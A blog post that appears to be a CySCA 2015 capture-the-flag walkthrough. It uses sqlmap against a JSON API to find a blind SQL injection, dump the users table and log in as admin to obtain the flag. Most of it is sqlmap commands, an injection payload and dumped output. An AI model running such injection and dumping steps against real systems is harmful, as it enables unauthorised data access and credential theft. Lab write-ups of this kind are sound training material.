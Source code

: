 ```yaml
---
title: CySCA 2015 - Web Application Pentest 5 - Turn it On & Off Again
author: nickw
layout: post

categories:
  - Blog
  - Security
---
```


<div style="font-size:0.7em"><i>Note: If you're interested in actually doing these challenges, <a href="/post/2015/cysca-2015/">check out this post</a> on 
how to get the environment set up.</i>
</div>


* * *

As an executive, we notice we've got some additional functionality. We notice 
another menu item "IT Support" and the "Executive Board" option on the home
page. 

<!--break-->

Since the challenge is called "Turn it on and off", we will have a poke around 
the IT support section.

The IT Section appears to be an area which allows users to submit IT Tickets. We
notice that it makes API requests to another server, namely `support.ecwi.cysca`.

Loading the list of tickets, we notice a POST request to 
`http://support.ecwi.cysca/ticket/get`, with the payload: 
`{uid: "5", secret: "4Da20BBfG19362c1b4ad6dea4A3aE9G3"}`.  The returned 
data is just a JSON list of tickets. 

Since we haven't had an SQL challenge yet, we pull out SQLMap and try to 
see what we can find. 

We copy the request from burp and save it into a file called tickets.txt:

{% highlight text %}
POST /ticket/get HTTP/1.1
Host: support.ecwi.cysca
Proxy-Connection: keep-alive
Content-Length: 55
Accept: application/json, text/javascript, */*; q=0.01
Origin: http://10.0.0.2
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/46.0.2490.86 Safari/537.36
Content-Type: application/json; charset=UTF-8
Referer: http://10.0.0.2/service/tickets
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.8

{"uid":"5","secret":"4Da20BBfG19362c1b4ad6dea4A3aE9G3"}
{% endhighlight %}


Lets run sqlmap using that request. `sqlmap -r tickets.txt`. When burp asks 
"JSON data found in POST data. Do you want to process it? [Y/n/q]", we answer 
with "y"

{% highlight text %}
[18:12:04] [WARNING] (custom) POST parameter 'JSON uid' does not appear dynamic
[18:12:04] [CRITICAL] not authorized, try to provide right HTTP authentication type and valid credentials (401)
[18:12:04] [WARNING] HTTP error codes detected during run:
401 (Unauthorized) - 2 times
{% endhighlight %}


Hmm, 401 errors. That's okay. We do some googling, and find that sqlmap actually
has an option to ignore 401 errors (provided you're running the latest version 
- 1.0-dev-69bc875). We run again, this time using 
`sqlmap -r tickets.txt --ignore-401`

{% highlight text %}
[18:12:39] [WARNING] (custom) POST parameter 'JSON secret' is not injectable
{% endhighlight %}

Still no dice. Let's increase the level: `sqlmap -r tickets.txt  --ignore-401 --level=3`.
That did the job:

{% highlight text %}
sqlmap identified the following injection point(s) with a total of 187 HTTP(s) requests:
---
Parameter: JSON uid ((custom) POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: {"uid":"5" AND 6601=6601 AND "rgyW"="rgyW","secret":"4Da20BBfG19362c1b4ad6dea4A3aE9G3"}
---
{% endhighlight %}

Awesome. Let's get some data out of this database. We use multiple threads to 
speed up the collection, since this is a blind injection. Additionally, it looks 
**totally badass**.
`sqlmap.py -r tickets.txt  --ignore-401 --level=3 --tables --threads=10`:

{% highlight text %}
[5 tables]
+----------------+
| ecwidb_replies |
| ecwidb_tickets |
| ecwidb_tokens  |
| ecwidb_users   |
| ticket_replies |
+----------------+
{% endhighlight %}

Users looks like a place we should look. Lets take a look in there: 
`sqlmap.py -r tickets.txt  --ignore-401 --level=3 --dump -T ecwidb_users --threads=10`

{% highlight text %}
Table: ecwidb_users
[1 entry]
+---------+-----------+-----------+
| tid     | tusername | tpassword |
+---------+-----------+-----------+
| <blank> | <blank>   | <blank>   |
+---------+-----------+-----------+
{% endhighlight %}

Weird. We google the issue with returning blank results, and find 
[issue 861](https://github.com/sqlmapproject/sqlmap/issues/861). We re-run using
the suggestion of `--time-sec=20`. `sqlmap.py -r tickets.txt  --ignore-401 --level=3 --dump -T ecwidb_users --threads=2 --time-sec=20`.

{% highlight text %}
Table: ecwidb_users
[1 entry]
+----+----------+--------------------+
| id | username | password           |
+----+----------+--------------------+
| 1  | admin    | #d0ntev3nTryn00bz! |
+----+----------+--------------------+
{% endhighlight %}

We've now got the password to the IT support system, however, we don't know 
where to put it. We're going to need to hunt for a login page.

Navigating to `http://support.ecwi.cysca/` gies us a 404 page, so does 
`http://support.ecwi.cysca/login`. Maybe if we try 
`http://support.ecwi.cysca/admin/`. Interesting. We get a Flask/WSGI looking
"Unauthorized" message. Since we know this is some sort of working endpoint, 
we browse to `http://support.ecwi.cysca/admin/login`. Out pops a login page.

We log in, revealing the flag:

> FLAG{4a000000000000000000000000000000}

